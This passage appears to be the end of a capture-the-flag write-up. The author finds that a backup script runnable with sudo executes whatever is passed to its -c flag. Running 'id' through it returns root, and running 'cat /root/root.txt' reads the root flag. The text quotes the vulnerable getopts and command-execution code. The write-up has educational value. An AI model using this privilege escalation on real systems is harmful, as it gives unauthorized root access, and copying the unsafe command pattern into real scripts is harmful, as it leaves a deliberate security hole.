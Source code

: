 ```bash
```

From the above code , we could understand that it backups all the music files but this particular lines stand out 

## getopts

```bash
while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done
```
Here it asks for a input flag `-c` using `getopts` and executes the i/p command given to `-c` at the end of the script 

```bash
cmd=$($command)
echo $cmd
```

> **getopts** is a very convenient bash script utility, which helps you to conveniently handle the passing of flags

Let try giving `id` command as i/p in `-c` flag

```bash
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c id

[redacted]

Backup finished
uid=0(root) gid=0(root) groups=0(root)
```
It works !! 

## root.txt 🚩

Lets now retreive **root.txt** flag 

```bash
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c "cat /root/root.txt"

[redacted]

Backup finished
flag{Than5s****************enJ053d}
```

 





